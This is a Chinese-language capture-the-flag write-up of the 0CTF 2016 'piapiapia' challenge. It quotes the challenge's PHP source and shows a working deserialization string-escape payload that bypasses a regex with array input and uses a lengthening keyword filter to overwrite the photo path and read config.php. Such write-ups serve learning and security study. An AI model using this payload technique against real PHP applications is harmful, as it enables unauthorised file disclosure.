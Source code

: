 # [0CTF 2016]piapiapia

## 知识点

`php反序列化字符串逃逸(变长)`

`php代码审计`

## 解题

首先进入题目首页，只有一个登录框，扫目录的时候扫到了`www.zip`，看了下代码在`profile.php`发现有反序列化和读取文件，而且最后会将内容以`base64`编码输出

```php
<?php
	require_once('class.php');
	if($_SESSION['username'] == null) {
		die('Login First');
	}
	$username = $_SESSION['username'];
	$profile=$user->show_profile($username);
	if($profile  == null) {
		header('Location: update.php');
	}
	else {
		$profile = unserialize($profile);
		$phone = $profile['phone'];
		$email = $profile['email'];
		$nickname = $profile['nickname'];
		$photo = base64_encode(file_get_contents($profile['photo']));
?>
```

发现有反序列化，找一下如何利用，在`update.php`中找到利用方法
```php
<?php
	require_once('class.php');
	if($_SESSION['username'] == null) {
		die('Login First');
	}
	if($_POST['phone'] && $_POST['email'] && $_POST['nickname'] && $_FILES['photo']) {

		$username = $_SESSION['username'];
		if(!preg_match('/^\d{11}$/', $_POST['phone']))
			die('Invalid phone');

		if(!preg_match('/^[_a-zA-Z0-9]{1,10}@[_a-zA-Z0-9]{1,10}\.[_a-zA-Z0-9]{1,10}$/', $_POST['email']))
			die('Invalid email');

		if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
			die('Invalid nickname');

		$file = $_FILES['photo'];
		if($file['size'] < 5 or $file['size'] > 1000000)
			die('Photo size error');

		move_uploaded_file($file['tmp_name'], 'upload/' . md5($file['name']));
		$profile['phone'] = $_POST['phone'];
		$profile['email'] = $_POST['email'];
		$profile['nickname'] = $_POST['nickname'];
		$profile['photo'] = 'upload/' . md5($file['name']);

		$user->update_profile($username, serialize($profile));
		echo 'Update Profile Success!<a href="profile.php">Your Profile</a>';
	}
?>
```
发现`$profile['photo'] = 'upload/' . md5($file['name']);`，已经被固定，发现前面的参数`nickname`的`preg_match`可以用`数组传值`绕过，猜测通过`反序列化字符串逃逸`来攻击，找一下有没有能让字符串替换的地方，跟进`$user->update_profile($username, serialize($profile));`

```php
class User extends mysql {
    public function update_profile($username, $new_profile) {
		$username = parent::filter($username);
		$new_profile = parent::filter($new_profile);

		$where = "username = '$username'";
		return parent::update($this->table, 'profile', $new_profile, $where);
	}

    public function filter($string) {
		$escape = array('\'', '\\\\');
		$escape = '/' . implode('|', $escape) . '/';
		$string = preg_replace($escape, '_', $string);

		$safe = array('select', 'insert', 'update', 'delete', 'where');
		$safe = '/' . implode('|', $safe) . '/i';
		return preg_replace($safe, 'hacker', $string);
	}
}
```

发现传入`序列化`后的值字符串长度会增加，那么我们就可以进行`反序列化字符串逃逸(变长)`,先尝试读取`config.php`，构造`payload`

```php
<?php
$profile['phone'] = '13312345678';
$profile['email'] = '1@163.com';
$profile['nickname'] = ['123'];      // 数组绕过，所以构造数组，不然后续会少一个字符导致逃逸失败
$profile['photo'] = 'config.php';

echo serialize($profile);
```

可以参考[我以前的博客](https://cmacckk.github.io/2021/06/05/phpUnserialize/#php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E9%80%83%E9%80%B8%E5%8F%98%E9%95%BF)

![alt text](<img/[0CTF 2016]piapiapia-3.png>)

可以看到，需要逃逸的字符串长度是`34`,从`where`变到`hacker`每次增加一个字符，所以需要`34`个`where`来拼接

![alt text](<img/[0CTF 2016]piapiapia-4.png>)

```
wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}
```

然后`bp`传值之后到`index.php`的源码中找到`base64`值解码即可获得`config.php`文件的内容

![alt text](<img/[0CTF 2016]piapiapia-5.png>)

![alt text](<img/[0CTF 2016]piapiapia-6.png>)

![alt text](<img/[0CTF 2016]piapiapia-7.png>)

![alt text](<img/[0CTF 2016]piapiapia-8.png>)